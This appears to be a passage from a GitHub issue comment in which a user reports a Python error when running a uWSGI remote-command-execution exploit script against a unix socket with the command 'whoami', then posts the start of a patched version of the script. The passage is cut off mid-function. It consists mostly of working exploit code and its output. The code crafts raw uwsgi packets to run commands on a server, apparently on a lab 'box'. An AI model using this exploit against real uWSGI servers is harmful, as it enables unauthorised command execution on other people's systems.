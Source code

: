 I tried running the script and I get an error.

```bash
qtc@aeb4525789d8:/tmp$ python3 exploit.py -m unix -u /tmp/uwsgi.socket -c 'whoami'
[*]Sending payload.
Traceback (most recent call last):
  File "exploit.py", line 146, in [module](module)
    main()
  File "exploit.py", line 143, in main
    print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))
  File "exploit.py", line 110, in curl
    return ask_uwsgi(addr_and_port, mode, var)
  File "exploit.py", line 77, in ask_uwsgi
    s.send(pack_uwsgi_vars(var) + body.encode('utf8'))
  File "exploit.py", line 26, in pack_uwsgi_vars
    pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
  File "exploit.py", line 18, in sz
    if sys.version_info[0] == 3: import bytes
ModuleNotFoundError: No module named 'bytes'
```

So the box doesn't have `bytes` module and we can't do pip install kinds of stuff. 

So I did a few changes in the script.

```python
#!/usr/bin/python

import sys
import socket
import argparse
import binascii
import requests

def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
    s = bytes.fromhex(s) if sys.version_info[0] == 3 else binascii.hexlify(s)
    return s[::-1]

def pack_uwsgi_vars(var):
    pk = b''
    for k, v in var.items() if hasattr(var, 'items') else var:
        pk += sz(k) + k.encode('utf8') + sz(v) + v.encode('utf8')
    result = b'\x00' + sz(pk) + b'\x00' + pk
    return result

def parse_addr(addr, default_port=None):
    port = default_port
    if isinstance(addr, str):
        if addr.isdigit():
            addr, port = '', addr
        elif ':' in addr:
            addr, _, port = addr.partition(':')
    elif isinstance(addr, (list, tuple, set)):
        addr, port = addr
    port = int(port) if port else port
    return (addr or '127.0.0.1', port)

def get_host_from_url(url):
    if '//' in url:
        url = url.split('//', 1)[1]
    host, _, url = url.partition('/')
    return (host, '/' + url)

def fetch_data(uri, payload=None, body=None):
    if 'http' not in uri:
```